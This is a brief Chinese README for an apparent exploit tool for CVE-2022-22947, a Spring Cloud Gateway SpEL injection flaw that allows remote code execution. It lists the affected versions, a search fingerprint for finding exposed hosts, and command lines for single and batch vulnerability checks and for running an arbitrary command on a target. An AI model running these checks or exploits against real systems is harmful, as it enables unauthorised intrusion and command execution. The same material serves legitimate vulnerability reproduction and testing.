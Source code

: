 
Spring Cloud Gateway远程代码执行漏洞复现(CVE-2022-22947)
Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问ActuatorAPI的情况下，将可以利用该漏洞执行任意命令。
3.1.0、 3.0.0至3.0.6、 3.0.0之前的版本
app="vmware-SpringBoot-framework"

单个检测：python3 .\CVE-2022-22947-POC.py -t "http://0.0.0.0:1234"
批量检测：python3 .\CVE-2022-22947.py-POC -f "url.txt"

漏洞利用：python3 .\CVE-2022-22947-EXP.py -t "http://0.0.0.0:1234" -c  "cmd"

